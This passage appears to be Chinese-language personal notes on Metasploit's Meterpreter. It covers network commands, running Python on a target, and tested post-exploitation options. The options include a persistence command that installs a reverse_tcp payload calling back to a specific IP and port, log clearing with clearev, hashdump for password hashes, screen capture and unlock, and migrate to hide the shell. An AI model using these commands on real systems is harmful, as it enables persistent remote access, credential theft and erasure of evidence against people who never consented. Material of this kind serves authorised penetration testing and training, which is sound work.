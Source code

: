 ##### 网络

网络相关命令。

| Command | Description |
| --- | --- |
| arp | 显示 ARP 缓存 |
| getproxy | 显示浏览器代理配置 |
| ifconfig(ipconfig) | 显示网卡信息 |
| netstat | 显示网络连接信息 |
| route | 显示或更改对方系统上的路由表 |

无需 Python 解释器在对方系统执行 Python 代码

先加载 Python 扩展。

```bash
meterpreter > load python 
```

通过下面命令执行语句。

```bash
python_execute print(1)   #执行 Python 语句
python_import -f path/filename.py   #导入模块并执行
python_reset #重新加载 Python 解释器
```

调用相关脚本获取信息 [https://www.offensive-security.com/metasploit-unleashed/existing-scripts/](https://www.offensive-security.com/metasploit-unleashed/existing-scripts/)

一些测试过的选项

-   ~run persistence -XU -P windows/x64/meterpreter/reverse\_tcp -i 5 -p 8084 -r 106.2.120.110，持久化 -U 用户登录时自动启动代理 -X 系统启动时自动启动代理 -P 指定运行的 Payload -p 端口 -r 主机 -i 每 5 秒重连一次。~官方已经废弃此模块替换为 `exploit/windows/local/persistence`
-   screenshare -d 0.0.1 -q 70，按帧对屏幕截图，获取 VNC 失败只能采用一帧一帧截图的方式上传图片。客户端操作太快会有延迟。
-   run screen\_unlock，屏幕解锁。Windows 10 不好使。
-   clearev，清除日志。在目标是 Windows 10 测试失败
-   run hashdump，导出用户密码 hash
-   reboot，重启目标机器

### auxiliary 信息收集 (未完成)

auxiliary 模块下要用那种模块，直接用 info 查看基本信息就知道是干嘛用的。

### msfvenom

用来生成 Payload

armitage 是 metasploit 的一个组件，工作界面为 GUI，功能与 msf 一致。

migrate 隐藏远程链接 shell
